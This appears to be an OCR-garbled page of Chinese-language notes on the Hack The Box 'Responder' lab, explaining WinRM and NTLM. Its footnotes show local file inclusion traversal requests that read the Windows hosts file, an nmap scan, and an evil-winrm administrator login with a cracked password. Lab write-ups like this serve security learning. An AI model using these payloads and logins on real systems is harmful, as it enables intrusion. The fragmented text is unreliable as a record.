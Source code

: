 [Windows远程管理的安装和配置 - Win32 apps \| Microsoft Docs](https://morgansimonsen.com/2009/12/10/winrm-and-tcp-ports/#:\~:text=WinRM%2C%20or%20Windows%20Remote%20Management%2C%20is%20an%20HTTP,listens%20for%20local%20requests%20on%20TCP%20port%2047001.) 

[NT LAN Manager - Wikipedia](https://en.wikipedia.org/wiki/NT_LAN_Manager) 

[NTLM Overview \| Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview) 

[NTLM Explained: Definition, Protocols & More \| CrowdStrike](https://www.crowdstrike.com/cybersecurity-101/ntlm-windows-new-technology-lan-manager/) 

 

Tools: nmap, responder, john, evil-winrm

Q: 什么是 Windows Remote Management (WinRM)

WinRM，即Windows远程管理，是一个基于HTTP的Windows远程管理和shell协议。

该协议是基于简单对象访问协议 (SOAP) 的、防火墙友好的标准协议，使来自不同供应商的硬件和操作系统能够互操作

如果WinRM没有被配置为远程访问，但该服务被启动，它就会在TCP 47001端口监听本地请求。

如果配置了监听器，它仍将监听47001，但也监听默认的TCP端口5985（HTTP）和5986（HTTPS）。

Q: 什么是Windows New Technology LAN Manager (NTLM) [^8] 

是微软开发的一种用于用户认证的协议，它是一种single sign on (SSO)认证工具

Windows 2000以后，默认被Kerberos协议代替。

[^1]: C
    O & unika.htb/index.php?page=./././././
    LD
    S
    Warning: include(C:\\): Failed to open stream: No such file or directory in C:\\xampp\\htdocs\\index.php on line 11
    Warning: include(): Failed opening '../../../../../' for inclusion (include_path='\\xampp\\php\\PEAR') in C:\\xampp\\htdocs
    index.php on line 11

[^2]: C
    O & unika.htb/index.php?page=../../../windows/system32/drivers/etc/hosts
    S
    E
    # Copyright (c) 1993-2009 Microsoft Corp. # # This is a sample HOSTS file used by Microsoft TCP/IP for Windows. # #
    This file contains the mappings of IP addresses to host names. Each # entry should be kept on an individual line. The IP
    address should # be placed in the first column followed by the corresponding host name. # The IP address and the host
    name should be separated by at least one # space. # # Additionally, comments (such as these) may be inserted on
    individual # lines or following the machine name denoted by a '#' symbol. # # For example: # # 102.54.94.97
    rhino.acme.com # source server # 38.25.63.10 x.acme.com # x client host # localhost name resolution is handled
    within DNS itself. # 127.0.0.1 localhost # ::1 localhost


[^3]: C
[^4]: \[us- starting-point-vip-1-dhcp\]-\[10. 10. 14.34\]-\[htb- versunpan@pwnbox-base\]-\[\~\]
[^5]: - \[\*\]$ nmap -p- -T5 -sV $ip
[^6]: \[\*\]$ evil-winrm -i 10. 129.212.201 -u administrator -P 5985 -p badminton
[^7]: Responder Write-up
[^8]: Windows New Technology LAN Manager (NTLM)